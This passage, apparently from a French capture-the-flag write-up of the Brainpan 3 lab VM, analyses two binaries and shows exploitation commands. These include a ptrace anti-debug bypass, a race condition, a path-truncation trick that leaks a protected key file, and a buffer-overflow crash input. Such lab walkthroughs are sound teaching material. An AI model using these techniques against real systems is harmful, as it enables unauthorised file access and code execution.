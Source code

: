 Que fait ce binaire *trixd* ? Une fois de plus il s'agit d'un ELF x86 de petite taille avec tout dans le *main()*.  

Première particularité ? Il effectue un *ptrace()* pour déterminer s'il est en train d'être débogué. On peut très facilement NOPer cette partie pour des tests en local depuis *Cutter*.  

Pour le reste ça se résume à ceci :  

![Brainpan 3 CTF trixd assembly](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_3/bp3_trixd.png)

Le programme compare simplement le contenu de */mnt/usb/key.txt* avec le contenu de */home/puck/key.txt*. S'ils correspondent il nous donne gracieusement un shell, sinon un message d'échec.  

*trixd* vérifie préalablement que le fichier n'est pas un lien symbolique avec un appel à *\_\_lxstat* et bizarrement définit un *select()* avec un timeout qui doit provoquer une temporisation entre le check sur le type de fichier et la comparaison sur les contenus. On est donc en présence d'une race condition.  

Impossible d'obtenir le contenu de la clé de l'utilisateur *puck*. Quand à l'autre fichier il nécessite les droits de *reynard* :  

```plain
drwxrwx--- 2 reynard dev 4096 Jun 17  2015 /mnt/usb
```

On en revient donc au programme *cryptor* et en particulier à ce qui est fait avant le cryptage :  

![Brainpan 3 CTF cryptor assembly code](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_3/bp3_cryptor_2.png)

Le code effectue un *strlen()* sur le nom du fichier source et effectue soit un *strncpy* soit un *strcpy* si la taille est supérieure ou non à 116.  

Le résultat de ce str(n)cpy permet de générer le nom du fichier de sortie.  

Par exemple si on dépasse ces 116 caractères alors le nom du fichier est d'abord tronqué à 90 caractères avant que le suffixe *.enc* soit ajouté. On peut en profiter pour faire en sorte que le programme écrive son output en dehors du dossier normalement attendu et par exemple obtenir le contenu du fichier */mnt/usb/key.txt* :  

```plain
anansi@brainpan3:/home/reynard/private$ ./cryptor /tmp/././././././././././././././././././././././././././././././././././././././/..//tmp/./.././tmp/../mnt/usb/key.txt 0
[+] saving to /tmp/././././././././././././././././././././././././././././././././././././././/..//tmp/.enc
anansi@brainpan3:/home/reynard/private$ cat /tmp/.enc
9H37B81HZYY8912HBU93
```

Mike Tyson
----------

J'espère que vous êtes bien installés car là ça commence à devenir costaud :'D  

```shellsession
$ ./cryptor `python -c "print 'A'*115"` 0
[+] saving to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.enc
$ ./cryptor `python -c "print 'A'*117"` 0
[+] saving to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.enc
$ ./cryptor `python -c "print 'A'*116"` 0
[+] saving to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.enc
[1]    3225 segmentation fault (core dumped)  ./cryptor `python -c "print 'A'*116"` 0
```
